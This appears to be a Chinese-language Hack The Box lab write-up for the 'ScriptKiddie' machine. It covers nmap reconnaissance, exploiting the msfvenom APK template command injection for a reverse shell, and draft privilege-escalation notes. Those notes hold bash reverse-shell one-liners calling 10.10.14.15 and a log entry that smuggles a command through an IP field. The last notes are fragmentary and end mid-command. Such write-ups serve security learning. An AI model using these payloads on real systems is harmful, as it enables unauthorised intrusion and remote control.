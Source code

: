 # 服务探测

开放端口
```
┌──(root㉿rock)-[~/htb/ScriptKiddie]
└─# nmap -p- --open 10.10.10.226               
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-24 02:13 EDT
Nmap scan report for 10.10.10.226
Host is up (0.036s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
5000/tcp open  upnp

Nmap done: 1 IP address (1 host up) scanned in 5.58 seconds

```

详细端口信息
```
┌──(root㉿rock)-[~/htb/ScriptKiddie]
└─# nmap -sV -Pn -A -O 10.10.10.226 -p 22,5000
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-24 02:17 EDT
Nmap scan report for 10.10.10.226
Host is up (0.0085s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3c:65:6b:c2:df:b9:9d:62:74:27:a7:b8:a9:d3:25:2c (RSA)
|   256 b9:a1:78:5d:3c:1b:25:e0:3c:ef:67:8d:71:d3:a3:ec (ECDSA)
|_  256 8b:cf:41:82:c6:ac:ef:91:80:37:7c:c9:45:11:e8:43 (ED25519)
5000/tcp open  http    Werkzeug httpd 0.16.1 (Python 3.8.5)
|_http-title: k1d'5 h4ck3r t00l5
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 4.15 - 5.6 (95%), Linux 5.3 - 5.4 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), Linux 2.6.32 (94%), Linux 5.0 - 5.3 (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Adtran 424RG FTTH gateway (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 22/tcp)
HOP RTT     ADDRESS
1   7.21 ms 10.10.16.1
2   2.95 ms 10.10.10.226

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.50 seconds

```


# web

5000端口是一个执行各种命令的页面，尝试各种命令注入无果

我们留意到期中一个命令执行是生成一个msfvenom的payload，其中需要上传一个文件

linux上传.elf文件
windows上传.exe文件
安卓上传.apk文件


感觉入口应该是在这里

kali搜索msfvenom相关的漏洞

```
┌──(root💀kali)-[~/htb/ScriptKiddie]
└─# searchsploit msfvenom                                                                                     130 ⨯
---------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                    |  Path
---------------------------------------------------------------------------------- ---------------------------------
Metasploit Framework 6.0.11 - msfvenom APK template command injection             | multiple/local/49491.py
---------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results

```

找到一个python版本的exp，但是我本地因为py的各种依赖问题不能成功执行，根据漏洞编号去到msf寻找这个漏洞的exp
```
msf6 exploit(multi/http/werkzeug_debug_rce) > search 2020-7384

Matching Modules
================

   #  Name                                                                    Disclosure Date  Rank       Check  Description
   -  ----                                                                    ---------------  ----       -----  -----------
   0  exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection  2020-10-29       excellent  No     Rapid7 Metasploit Framework msfvenom APK Template Command Injection 
```

载入，生成一个apk文件
```
msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > options

Module options (exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   FILENAME  msf.apk          yes       The APK file name


Payload options (cmd/unix/reverse_netcat):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  207.246.124.194  yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port

   **DisablePayloadHandler: True   (no handler will be created!)**


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > set lhost 10.10.16.6
lhost => 10.10.16.6
msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > run

[+] msf.apk stored at /root/.msf4/local/msf.apk

```

通过首页上传到服务器，当服务器程序执行msfvenom时，本地收到一个rev shell


```
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.16.6:4444 
[*] Command shell session 1 opened (10.10.16.6:4444 -> 10.10.10.226:51136) at 2022-06-24 06:02:05 -0400

id
uid=1000(kid) gid=1000(kid) groups=1000(kid)
whoami
kid

```

拿到user.txt
```
ls
html
logs
snap
user.txt
cat user.txt
bb9561c6fe02ab1...
```

# 提权



bash -i >& /dev/tcp/10.10.14.15/4242 0>&1



```
kid@scriptkiddie:/home/pwn$ cat scanlosers.sh
cat scanlosers.sh
#!/bin/bash

log=/home/kid/logs/hackers

cd /home/pwn/
cat $log | cut -d' ' -f3- | sort -u | while read ip; do
    sh -c "nmap --top-ports 10 -oN recon/${ip}.nmap ${ip} 2>&1 >/dev/null" &
done

if [[ $(wc -l < $log) -gt 0 ]]; then echo -n > $log; fi

```



```
┌──(root💀kali)-[~/htb/ScriptKiddie]
└─# cat hackers                                        
2022-06-28 17:34:11.250129 127.0.0.1
                                                                                                                                               
┌──(root💀kali)-[~/htb/ScriptKiddie]
└─# cat /root/htb/ScriptKiddie/hackers | cut -d' ' -f3-
127.0.0.1

```


2022-06-28 17:34:11.250129 127.0.0.1




2022-06-28 17:34:11.250129 ${bash -i >& /dev/tcp/10.10.14.15/4242 0>&1}


2022-06-28 17:34:11.250129 bash -i >& /dev/tcp/10.10.14.15/4242 0>&1


nmap --top-ports 10 -oN recon/10.10.14.15.nmap 10.10.14.15 2>&1 >/dev/null



nmap --top-ports 10 -oN recon/127.0.0.1|whoami&&id.nmap 127.0.0.1|whoami&&id >/dev/null



nmap --top-ports 10 -oN recon/127.0.0.1|bash -i >& /dev/tcp/10.10.14.15/4242 0>&1&&id.nmap 127.0.0.1|bash -i >& /dev/tcp/10.10.14.15/4242 0>&1&&id >/dev/null


echo "2022-06-28 17:34:11.250129 127.0.0.1|bash -i >& /dev/tcp/10.10.14.15/4242 0>&1&&id" > /home/kid/logs/hackers


echo "2022-06-28 17:34:11.250129 127.0.0.1|bash -i >& /dev/tcp/10.10.14.15/4242 0>&1&&id" > hackers


cat /home/kid/logs/hackers | cut -d' ' -f3-


cat /home/kid/logs/hackers | cut -d' ' -f3- | sort -u | while read ip; echo ${ip}